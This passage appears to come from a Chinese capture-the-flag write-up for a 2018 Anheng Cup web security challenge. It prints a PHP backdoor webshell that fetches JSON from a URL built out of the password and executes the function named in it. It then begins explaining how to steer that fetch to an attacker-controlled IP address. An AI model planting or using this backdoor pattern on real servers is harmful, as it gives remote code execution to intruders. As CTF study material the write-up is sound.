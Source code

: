 ***

## 2018安恒杯Web安全测试秋季资格赛

### 爱い窒息、痛 

进入题目，是一个大马后门，审计代码：

```php
<?php
    $a=isset($_POST['pass'])?trim($_POST['pass']):'';
    if($a==''){
        echologin();
    }else{
        chkpass($a);
        helloowner($a);
    }
    function chkpass($a){
        if(stripos($_SERVER['HTTP_USER_AGENT'],md5($a))===false){
            echofail(1);
        }
        return true;
    }
    function helloowner($a){
        $b=gencodeurl($a);
        $c=file_get_contents($b);
        if($c==false){
            echofail(2);
        }
        $d=@json_decode($c,1);
        if(!isset($d['f'])){
            echofail(3);
        }
        $d['f']($d['d']);
    }
    function gencodeurl($a){
        $e=md5(date("Y-m-d"));
        if(strlen($a)>40){
            $f=substr($a,30,5);
            $g=substr($a,10,10);
        }else{
            $f='good';
            $g='web.com';
        }
        $b='http://'.$f.$g;return $b;
    }
?>
```

传入一个字符串`pass`，其中有15位是我们可控的（ipv4最长情况3\*4+3，如果有短点的域名也可以，假如`ip`不足15位，则在后面补`/`，一样可以正常解析，如：`12.221.21.222//`）。
